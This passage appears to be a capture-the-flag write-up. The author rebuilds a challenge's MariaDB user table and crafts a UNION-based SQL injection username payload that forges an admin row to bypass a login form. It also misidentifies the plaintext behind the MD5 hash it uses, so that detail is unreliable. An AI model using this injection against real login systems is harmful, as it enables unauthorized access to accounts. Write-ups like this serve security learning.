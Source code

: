 At this point, I installed __MariaDB__ on a VM at home, to make it easier to develop a query that would work. I copied the database setup SQL commands directly from the `entrypoint.sh` script, but modified the admin user's password for simplicity.

```sh
sudo apt update && sudo apt install mariadb-server
mariadb
```
```sql
MariaDB [(none)]> create database orbital;
Query OK, 1 row affected (0.000 sec)

MariaDB [(none)]> CREATE TABLE orbital.users (
    ->     id INTEGER PRIMARY KEY AUTO_INCREMENT,
    ->     username varchar(255) NOT NULL UNIQUE,
    ->     password varchar(255) NOT NULL
    -> );
Query OK, 0 rows affected (0.061 sec)

MariaDB [(none)]> INSERT INTO orbital.users (username, password) VALUES ('admin', 'doesntmatter');
Query OK, 1 row affected (0.005 sec)

MariaDB [(none)]> use orbital;
```
I was pretty sure that a `UNION` statement could be used to insert static values into the query, but didn't know the exact syntax to do so. After some tinkering and some research, I found a query that did what I wanted:

```sql
SELECT username, password FROM users WHERE username = "" UNION SELECT "admin","e99a18c428cb38d5f260853678922e03";
```
```sql
MariaDB [orbital]> SELECT username, password FROM users WHERE username = "" UNION SELECT "admin","e99a18c428cb38d5f260853678922e03";
+----------+----------------------------------+
| username | password                         |
+----------+----------------------------------+
| admin    | e99a18c428cb38d5f260853678922e03 |
+----------+----------------------------------+
```

`e99a18c428cb38d5f260853678922e03` is the MD5 hash for `abc132`, which I will use in the login request so it matches.

So, in order to inject that query into the one that they are using in the challenge, I will need to use the following as a username:

```sql
" UNION SELECT "admin","e99a18c428cb38d5f260853678922e03" --
```
__With a trailing space at the end__, which this page may automatically strip out. If this is not there, the comment won't work, and the SQL query will crash.

There is still no security on the login form handling system, so we can just copy and paste this into the login form and we're in (remember the trailing space).
